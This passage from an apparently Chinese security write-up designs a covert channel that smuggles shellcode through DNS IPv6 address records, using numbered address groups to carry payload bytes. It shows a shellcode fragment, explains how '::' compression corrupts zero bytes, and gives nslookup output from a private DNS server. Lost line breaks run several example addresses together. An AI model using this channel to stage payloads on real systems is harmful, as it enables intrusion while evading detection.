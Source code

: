 
 **0x04  IPV6 DNS A记录的利用设计**

  

##  **4.1 ipv6格式**

  

我们先来看IPV6的格式

  * 

    
    
    fe80:1111:0034:abcd:ef00:ab11:ccf1:0000

  
同ipv4一样，在解析ipv6地址的时候也是无序的，所以我们将最后一个段用来做序号，前面7段用来做payload的载体，如下：  

  * 

    
    
    [xxxx:xxxx:xxxx:xxxx:xxxx:xxxx:xxxx]:[yyyy]

  
这样能传输的数据最大值就能计算出来，每行有7段用来传输数据，就能传输28个字符，14个字节，所以最大的单个域名传输数据是：9999 * 14 =
139986b =
136.70KB，这个数据已经足够大了，还愁不能传输几百字节的payload吗？这样就能解决ipv4中对单个域名解析传输数据长度受限的问题（虽然我们前面解决这个问题的方式是通过多域名解析）。  

##  **4.2 ipv6解析详情**

  

由于ipv6存在一种0位压缩表示法，即在某些情况下，一个IPv6地址中间可能包含很长的一段0，可以把连续的一段0压缩为“::”。但为保证地址解析的唯一性，地址中”::”只能出现一次。比如：

  *   *   *   *   * 

    
    
    4805:0000:0000:0011:e87f:0000:0000:0065    -    4805::11:e87f:0:0:650000:0000:0000:302e:302e:3800:FFFF:0066    -    ::302e:302e:3800:ffff:663800:0000:0000:302e:302e:3800:FFFF:0066    -    3800::302e:302e:3800:ffff:663800:0000:0000:0000:0000:3800:FFFF:0066    -    3800::3800:ffff:663800:0000:0000:0000:0000:3800:0000:0066    -    3800::3800:0:66

  
这时候就会出现一个问题，如果我们传输的数据里出现连续的00，利用ipv6来解析的话，就会把这些00都省略了，无法保证数据的完整性。比如：

  *   *   *   *   *   *   *   * 

    
    
    #payload:0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2#格式化成ipv6的解析格式（FFFF是对当payload不是14的倍数时，对ipv6地址的填充）fc48:83e4:f0e8:c800:0000:0000:4150:52515648:31d2:FFFF:FFFF:FFFF:FFFF:FFFF:FFFF#解析结果fc48:83e4:f0e8:c800::4150:52515648:31d2:ffff:ffff:ffff:ffff:ffff:ffff

  
如上，数据发生了变化。使用nslookup验证

  *   *   *   *   *   * 

    
    
    λ nslookup test.com 10.0.0.88服务器:  UnKnownAddress:  10.0.0.88名称:    test.comAddresses:  fc48:83e4:f0e8:c800::4150:5251          5648:31d2:ffff:ffff:ffff:ffff:ffff:ffff
